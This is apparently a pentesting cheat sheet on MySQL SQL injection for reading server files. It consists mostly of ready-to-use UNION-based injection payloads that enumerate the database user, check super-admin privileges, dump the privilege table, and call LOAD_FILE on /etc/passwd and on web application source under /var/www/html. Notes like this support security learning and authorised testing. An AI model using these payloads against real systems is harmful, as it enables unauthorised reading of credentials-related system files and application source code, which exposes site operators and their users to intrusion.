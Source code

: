# Reading Files
***

### Privileges
#### In MySQL, the database user must have the **FILE** privilege to load a file's content into a table and them exfiltrate data from that table and read files.
#### We first need to gather information about our user privileges within the database to decide whether we will read and/or write files to the back-end server


### DB User
#### Used to determine which user we are within the database
#### Examples:
```sql
SELECT USER();
SELECT CURRENT_USER();
SELECT user from mysql.user;
```
#### Using  UNION:
```sql
v' UNION SELECT 1,user, 3, 4 FROM mysql.user-- 
```
```sql
v' UNION SELECT 1,user(), 3, 4-- 
```

### User Privileges
#### We can use the following queries to check if we have super admin privileges:
```sql
SELECT super_priv FROM mysql.user;
```
#### Or using UNION
```sql
v' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- 
```

```sql
v' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- 
```

#### If we have super admin privileges the query will return Y 

#### Dumping all privileges :
```sql
v' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- 
```

#### Of a given user:
```sql
v' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- 
```

### LOAD_FILE
#### The LOAD_FILE function can be used in MySQL/MariaDB to read data from files
#### Example:
```sql
SELECT LOAD_FILE('/etc/passwd');
```

#### Using UNION:
```sql
v' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```

#### Another Example:
```sql
v' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- 
```
##### **NOTE**: The default Apache webroot is ***/var/www/html*** so we can try and load a file to read his source code